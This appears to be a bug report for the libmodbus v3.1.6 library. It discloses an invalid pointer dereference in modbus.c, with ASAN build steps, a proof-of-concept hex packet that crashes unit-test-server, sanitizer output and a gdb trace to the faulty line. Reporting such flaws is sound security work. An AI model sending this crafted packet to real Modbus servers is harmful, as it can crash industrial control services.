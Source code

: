 ## libmodbus version

  v3.1.6

## OS and/or distribution

  Ubuntu22

## Environment

  ...

## Description

  An Invalid Pointer Dereference vulnerability exists in modbus.c in libmodbus v3.1.6, which can be triggered by sending a specific packet to unit-test-server. The vulnerability appears to be caused by the backend_type pointer not being properly initialized.

## Actual behavior if applicable

  =================================================================
==9000==ERROR: AddressSanitizer: SEGV on unknown address 0x605ffffffe96 (pc 0x59037142649c bp 0x7ffeba556150 sp 0x7ffeba555f30 T0)

## Expected behavior or suggestion

  no crash

## Steps to reproduce the behavior (commands or source code)

   Compile the program with ASAN

~~~
  ./autogen.sh
  ./configure --enable-static CC="clang -fsanitize=address  -O1 -g" CXX="clang -fsanitize=address  -O1 -g"
   make -j8
   clang -g -fsanitize=address -O1  unit-test-server.c -o unit-test-server -I ../src/ ../src/.libs/libmodbus.a
~~~

  run unit-test-server
 `./unit-test-server`

  send POC to unit-test-server

  POC:

  ~~~
  00000000000CFF1701600002006B0001021234
  ~~~

  Then, you can see:

~~~
AddressSanitizer:DEADLYSIGNAL

==9000==ERROR: AddressSanitizer: SEGV on unknown address 0x605ffffffe96 (pc 0x59037142649c bp 0x7ffeba556150 sp 0x7ffeba555f30 T0)
==9000==The signal is caused by a WRITE memory access.
    #0 0x59037142649c  (/home/zyl/libmodbus/tests/unit-test-server+0xf49c)
    #1 0x59037141d389  (/home/zyl/libmodbus/tests/unit-test-server+0x6389)
    #2 0x797709629d8f  (/lib/x86_64-linux-gnu/libc.so.6+0x29d8f)
    #3 0x797709629e3f  (/lib/x86_64-linux-gnu/libc.so.6+0x29e3f)
    #4 0x59037141e4e4  (/home/zyl/libmodbus/tests/unit-test-server+0x74e4)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV (/home/zyl/libmodbus/tests/unit-test-server+0xf49c) 
==9000==ABORTING
Aborted (core dumped)
~~~

## libmodbus output with debug mode enabled

  The cause and location of the vulnerability can be further determined by using gdb

~~~
run < POC
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /unit-test-server < /POC
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff7bff640 (LWP 8757)]
[New Thread 0x7ffff73fe640 (LWP 8758)]
[Thread 0x7ffff7bff640 (LWP 8757) exited]
The client connection from 0.0.0.0 is accepted
Waiting for an indication...
<00><00><00><00><00><0C><FF><17><01><60><00><02><00><6B><00><01><02><12><34>

Thread 1 "unit-test-serve" hit Breakpoint 3, modbus_reply (ctx=ctx@entry=0x5555555782a0, req=req@entry=0x555555578320 "", req_length=<optimized out>, mb_mapping=mb_mapping@entry=0x555555578430) at modbus.c:1001
1001	    return (ctx->backend->backend_type == _MODBUS_BACKEND_TYPE_RTU &&
~~~

  gdb tells us the problem is with `ctx->backend->backend_type == _MODBUS_BACKEND_TYPE_RTU in modbus.c`. Looking at the relevant variables in turn, we can see that it seems to be caused by the fact that the backend_type pointer is not properly initialized.

~~~
(gdb) p ctx
$3 = (modbus_t *) 0x5555555782a0
(gdb) p ctx->backend
$4 = (const modbus_backend_t *) 0x1234555555576b80
(gdb) p ctx->backend->backend_type
Cannot access memory at address 0x1234555555576b80
(gdb) p ctx->backend->backend_type 
Cannot access memory at address 0x1234555555576b80
(gdb) p *ctx->backend->backend_type 
Cannot access memory at address 0x1234555555576b80
~~~



